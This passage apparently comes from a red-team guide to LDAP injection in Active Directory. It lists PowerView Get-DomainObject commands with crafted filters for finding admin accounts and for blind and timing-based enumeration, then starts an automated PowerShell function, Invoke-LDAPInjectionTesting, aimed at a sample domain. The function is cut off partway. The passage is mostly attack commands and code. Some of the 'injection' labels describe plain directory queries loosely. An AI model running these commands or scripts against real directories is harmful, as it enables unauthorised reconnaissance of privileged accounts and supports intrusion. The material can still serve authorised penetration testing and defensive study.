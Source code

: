 **Command Explanations:**
- **`Get-DomainObject -LDAPFilter "(&(objectClass=user)(sAMAccountName=*admin*))"`**: PowerView AND injection for admin users
- **`Get-DomainObject -LDAPFilter "(&(objectClass=user)(|(sAMAccountName=*admin*)(sAMAccountName=*user*)))"`**: PowerView nested OR within AND injection
- **`Get-DomainObject -LDAPFilter "(&(objectClass=*)(objectClass=user))"`**: PowerView redundant AND injection test

#### **PowerView Blind and Timing Injection**
```powershell
# Blind injection with PowerView
Get-DomainObject -LDAPFilter "(|(cn=a*)(cn=b*))" -Properties cn
Get-DomainObject -LDAPFilter "(|(cn=*)(cn=*))" -Properties cn
Get-DomainObject -LDAPFilter "(|(sAMAccountName=a*)(sAMAccountName=b*))" -Properties sAMAccountName

# Timing-based injection
Get-DomainObject -LDAPFilter "(objectClass=*)" -ResultSetSize 1 | Measure-Object
Get-DomainObject -LDAPFilter "(objectClass=user)" -ResultSetSize 1 | Measure-Object
Get-DomainObject -LDAPFilter "(objectClass=group)" -ResultSetSize 1 | Measure-Object
```

**Command Explanations:**
- **`Get-DomainObject -LDAPFilter "(|(cn=a*)(cn=b*))"`**: PowerView blind injection with character filtering
- **`Get-DomainObject -LDAPFilter "(|(cn=*)(cn=*))"`**: PowerView blind injection with wildcard redundancy
- **`Get-DomainObject -LDAPFilter "(objectClass=*)" -ResultSetSize 1 | Measure-Object`**: PowerView count-based blind injection

### **4. Red Team LDAP Injection Tools**

#### **Custom LDAP Injection Scripts**
```powershell
# Comprehensive LDAP injection testing function
function Invoke-LDAPInjectionTesting {
    param([string]$BaseDN = "DC=cybercorp,DC=local")
    
    try {
        Write-Host "Comprehensive LDAP Injection Testing" -ForegroundColor Green
        Write-Host "=" * 60
        
        $injectionResults = @{
            BaseDN = $BaseDN
            BasicTests = @()
            ORTests = @()
            ANDTests = @()
            BlindTests = @()
            Vulnerabilities = @()
        }
        
        # Basic injection tests
        Write-Host "Testing basic LDAP injection..." -ForegroundColor Yellow
        try {
            $basicTest = Get-DomainObject -LDAPFilter "(objectClass=*)" -ResultSetSize 5
            $injectionResults.BasicTests += @{
                Filter = "(objectClass=*)"
                ResultCount = $basicTest.Count
                Success = $true
            }
            Write-Host "  Basic injection: SUCCESS - $($basicTest.Count) objects returned" -ForegroundColor Green
        }
        catch {
            $injectionResults.BasicTests += @{
```